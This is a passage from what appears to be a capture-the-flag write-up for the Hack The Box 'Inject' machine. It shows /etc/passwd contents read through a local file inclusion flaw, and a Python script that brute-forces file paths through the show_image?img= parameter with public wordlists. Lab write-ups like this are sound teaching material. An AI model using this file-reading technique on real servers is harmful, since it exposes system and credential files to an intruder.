     frank:x:1000:1000:frank:/home/frank:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
    phil:x:1001:1001::/home/phil:/bin/bash
    fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    _laurel:x:997:996::/var/log/laurel:/bin/false
    ```

- I'm looking for the source files:
    ```python
    import requests
    import json
    import sys

    wordlist = sys.argv[1]
    lfipath = sys.argv[2]
    ext = sys.argv[3]

    with open(wordlist, 'r') as f:
        lines = f.readlines()

    for i in range(len(lines)):
        l = lines[i].strip()
        print(f'[{i}/{len(lines)}] /show_image?img={lfipath}{l}{ext}')
        r = requests.get(f'http://inject.htb:8080/show_image?img={lfipath}{l}{ext}')
        try:
            json.loads(r.text)
        except ValueError:
            with open('founds.txt', 'a') as ff:
                ff.write(f'filepath: {lfipath}{l}{ext}\n')
                ff.write(f'content:\n{r.text}\n')
                ff.write(f'-'*50)
                ff.write('\n')
    ```

    I use the two wordlists:
    - [https://github.com/emadshanab/WordLists-20111129/blob/master/Filenames_or_Directories_All.wordlist](https://github.com/emadshanab/WordLists-20111129/blob/master/Filenames_or_Directories_All.wordlist)
    - [https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt)

<br>

- While searching for the source files, I noticed that the responses from the web server are delayed by a few seconds and above all that the response is none other than an `ls` of the selected directory. So for this reason the script can be reduced to a trivial one:
    ```python
    import requests
    import sys

    r = requests.get(sys.argv[1])
    print(r.text)
    ```
